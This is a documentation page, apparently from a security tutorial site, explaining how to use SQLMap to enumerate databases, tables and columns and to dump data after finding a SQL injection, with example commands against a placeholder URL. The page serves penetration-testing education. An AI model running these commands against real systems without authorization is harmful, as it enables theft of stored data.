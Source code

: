 ```yaml
---
title: Database Enumeration
description: Learn how to enumerate database structure and extract data using SQLMap
---
```



<Tabs defaultValue="overview" className="pt-5 pb-1">
  <TabsList>
    <TabsTrigger value="overview">Overview</TabsTrigger>
    <TabsTrigger value="workflow">Workflow</TabsTrigger>
    <TabsTrigger value="commands">Key Commands</TabsTrigger>
  </TabsList>
  <TabsContent value="overview">
    SQLMap provides comprehensive capabilities for enumerating database structures and extracting valuable information once a SQL injection vulnerability has been identified. These techniques allow for systematic exploration of the database environment while maintaining control over the scope and impact of your security assessment.
  </TabsContent>
  <TabsContent value="workflow">
    A typical database enumeration workflow follows these steps:
    
    1. **Identify SQL injection vulnerability**
    2. **Determine database type and version**
    3. **List available databases**
    4. **Enumerate tables in target databases**
    5. **List columns in sensitive tables**
    6. **Extract valuable data**
    7. **Access file system (if needed and authorized)**
    
    This methodical approach ensures thorough exploration while minimizing unnecessary actions.
  </TabsContent>
  <TabsContent value="commands">
    Essential SQLMap enumeration commands:
    
    ```bash
    # Get current database name
    sqlmap -u "http://target.com/vuln.php?id=1" --current-db
    
    # List all databases
    sqlmap -u "http://target.com/vuln.php?id=1" --dbs
    
    # List tables in a database
    sqlmap -u "http://target.com/vuln.php?id=1" -D dbname --tables
    
    # List columns in a table
    sqlmap -u "http://target.com/vuln.php?id=1" -D dbname -T tablename --columns
    
    # Dump data from a table
    sqlmap -u "http://target.com/vuln.php?id=1" -D dbname -T tablename --dump
    ```
  </TabsContent>
</Tabs>

## Exploration Techniques

<Stepper>
  <StepperItem title="Database Structure Analysis">
    Learn how to enumerate databases, tables, and columns to map out the complete database structure.
    
    [Explore Database Structure →](/docs/sqlmap/database-enumeration/database-structure)
  </StepperItem>
  <StepperItem title="Data Extraction Methods">
    Discover techniques for extracting data from databases, including filtering, optimizing, and handling large datasets.
    
    [Explore Data Extraction →](/docs/sqlmap/database-enumeration/data-extraction)
  </StepperItem>
  <StepperItem title="File System Access">
    Learn how to access the file system through SQL injection vulnerabilities when database privileges permit.
    
    [Explore File System Access →](/docs/sqlmap/database-enumeration/file-system-access)
  </StepperItem>
</Stepper>
